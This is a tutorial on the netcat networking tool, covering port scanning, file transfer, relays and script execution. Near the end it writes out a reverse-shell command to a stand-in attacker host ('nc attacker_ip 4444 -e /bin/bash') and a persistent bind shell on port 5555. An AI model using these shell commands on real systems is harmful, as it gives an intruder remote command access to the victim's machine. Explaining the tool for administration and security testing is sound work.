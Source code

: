 ### Netcat (nc) Tool: The TCP/IP Swiss Army Knife

**Introduction:** Netcat, commonly abbreviated as `nc`, is a versatile command-line utility used for networking tasks. Known as the "TCP/IP Swiss Army Knife," it can handle tasks related to both TCP and UDP protocols. Whether it's port scanning, data transfer, or setting up basic servers, Netcat is an essential tool for network engineers, security professionals, and system administrators.

---
### **Netcat Installation:**
For Debian-based systems:
`sudo apt-get install netcat`

For RedHat/CentOS-based systems:
`sudo yum install nc`

---

### **Key Features:**
- Port scanning
- Data transfer
- Creating and listening on sockets
- Chat server/client setup
- Simple server for testing
- Proxy and relay functions
- Execution of scripts post-connection

---

### **Netcat Basic Syntax:**
`nc [options] [hostname] [port]`

- **Options:** Various flags like `-l`, `-p`, etc.
- **Hostname:** The IP address or domain name to connect to.
- **Port:** The network port number.

---

### **Some Fundamental Use-Cases of Netcat**
#### 1. **Port Scanning:**
Netcat can be used to scan open ports on a target machine. Using the `-z` option (zero I/O mode) lets you scan without sending any data.
`nc -zv 192.168.1.148 80-443`

Here, the `-z` option enables scanning mode, and `-v` enables verbose mode. It checks ports 80 to 443 on the target IP.

---

#### 2. **Network Data Transfer:**
You can transfer files over the network between two machines using Netcat. One machine listens on a port, while the other sends data.
**Receiver (server):**
`nc -l -p 2000 > received_file.txt`

**Sender (client):**
`nc 192.168.1.148 2000 < file_to_send.txt`

---

#### 3. **One-shot Server:**
Netcat can simulate a simple HTTP server for testing. This can be useful when testing client-server communication.
`while true; do { echo -e 'HTTP/1.1 200 OK\r\n'; sh test.sh; } | nc -l 8080; done`

This command starts a simple server on port 8080 that executes the `test.sh` script and sends a response.

---
#### 4. **Temporary Chat Server:**
Netcat can create a simple chat service. One host sets up a listening server, and the other connects to it to exchange messages.
**Host 1 (server):**
`nc -l -v -p 2000`

**Host 2 (client):**
`nc 192.168.1.148 2000`

---

#### 5. **Troubleshooting a Server:**
Netcat can act as a client to troubleshoot servers by performing HTTP GET requests.
`printf "GET /index.html HTTP/1.1\r\nHost: \r\n\r\n" | nc example.com 80`

This sends a basic HTTP GET request to the server on port 80.

---
#### 6. **Netcat Relays:**
Netcat supports the creation of relays, which can forward network traffic from one port to another.
- **Listener-to-Listener Relay:**
    `nc -l -p 2222 | nc remote_host 443`
    
- **Client-to-Client Relay:**
    `nc client1_host port1 | nc client2_host port2`
    

Relays are useful in scenarios where network traffic needs to be redirected or forwarded to different destinations.

---

#### 7. **Executing a Script After Connection:**
Netcat can execute scripts or shell commands automatically upon establishing a connection. Use the `-c` or `-e` options for executing commands or scripts.
- **Execute a command:**    
    `nc -l -p 1234 -c 'echo $(pwd)'`
    
- **Execute a script:**
    `nc -l -p 1234 -e '/path/to/script.sh'`
    
---
### **Other Useful Netcat Commands:**

#### **Banner Grabbing:**
Netcat can be used to grab server banners to identify services running on a target port.
`nc 192.168.1.148 80`

#### **Reverse Shell:**
Netcat can create a reverse shell where a target system connects back to the attacker’s machine, offering command-line access.
**Attacker (listener):**
`nc -lvp 4444`

**Victim (initiator):**
`nc attacker_ip 4444 -e /bin/bash`

#### **Persistent Bind Shell:**
Netcat can be used to bind a shell to a port and keep it open persistently.
`nc -lvp 5555 -e /bin/bash`

This command creates a bind shell, listening on port 5555.

---
### **Netcat Options:**

| Option | Description                              |
| ------ | ---------------------------------------- |
| `-l`   | Listen for incoming connections          |
| `-p`   | Specify port number                      |
| `-v`   | Verbose output                           |
| `-z`   | Zero I/O mode for port scanning          |
| `-e`   | Execute a program after connection       |
| `-c`   | Execute a shell command after connection |
| `-w`   | Timeout for waiting for connections      |
| `-u`   | Use UDP instead of TCP                   |

---
### **Conclusion:**
Netcat is a flexible and powerful tool, often used in networking, security testing, and automation tasks. From port scanning to data transfer and even setting up simple chat servers, it offers a range of use-cases that make it indispensable for system administrators and security professionals